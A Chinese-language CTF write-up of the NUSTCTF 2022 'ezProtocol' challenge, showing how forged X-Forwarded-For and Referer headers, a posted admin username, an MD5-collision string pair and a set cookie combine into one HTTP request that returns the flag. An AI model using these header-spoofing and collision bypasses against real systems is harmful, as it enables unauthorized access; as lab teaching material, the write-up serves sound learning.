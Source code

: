 ```yaml
---
date: 2024-05-27
categories: 
    - NUSTCTF
tag:
    - CTF
    - http
---
```


# 每日一题 —— [NUSTCTF 2022 新生赛]ezProtocol

> 题目地址: <https://www.nssctf.cn/problem/3175>

<!-- more -->

这题通篇看下来就是一个不断提交 http 请求的题目，所以较为简单。但是我本以为可以秒掉，但是却还是掉坑里了，主要是工具的使用出了问题，总体的思路是对的。在此记录一下

在前半部分，我们使用 hoppscotch(原 postwoman) 作为我们的 http 请求工具，虽然 HackBar 也一样，但是这题我用 HackBar 出现了一些小问题，所以为了方便，我从一开始就用 postwoman 来写。

## You must come from 127.0.0.1

这一步，要求你从 127.0.0.1 发起请求，显然这是 xff 伪造。打开 postwoman, 在 header 一栏添加如下 payload：

```
X-Forwarded-For: 127.0.0.1
```

## Have you just visited http://localhost/?

这一步，要求你从 `http://localhost/` 这个网址跳转过来。我们使用的是 referer 伪造。在 header 一栏添加如下 payload:

```
Referer: "http://localhost/"
```

## You must use POST

这一步，直接把方法改成 POST 就可以了。

## Your posted username must be admin

这一步要求你 post 一个 `username` 参数，值为 `admin` ，直接在 body 一栏添加 payload：

```
username: admin
```

## Your posted p1 and p2 must be different but have the same md5

这一步要求你 post 两个变量，值不能相等，但是他们的 md5 值要相等。我们可能会想到 0e 绕过或者是数组绕过，但是通过 wappalyzer 插件或者是通过返回的 `x-powered-by` header,可以知道服务器使用的 php8, 也就是我们必须使用最常规的 md5 碰撞。

我们通过搜索，找到了两串不一样的字符串，这里直接给出 payload：

```
p1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&p2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

我们发现，我们通过 postwoman 无法这么直接提交，所以我们在 postwoman 得到的 http 请求字符串复制下来，复制到 burpsuite 中重新提交。为什么这么做呢，是因为 postwoman 会自动把这一段已经编码好的字符串再次编码一次。所以我们需要在 burpsuite 直接提交原生字符串，绝不会有任何修改。这一步在 HackBar 里面直接报错，原因未知。

## I don' want to follow diet menu anymore, I want to have a big meal

这一步初看看不懂，但是发现对面传来了 `Set-Cookie` 的 header, 所以我们新建一个 `Cookie` 头，并按照要求把它改成 `big%20meal` ，如下：

```
Cookie: dinner=big%20meal
```

得到 flag.
 
最终 http 请求字符串如下：

```
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1
Referer: http://localhost/
Host: node5.anna.nssctf.cn:26594
Content-Length: 324
Cookie: dinner=big%20meal

username=admin&p1=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2&p2=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```
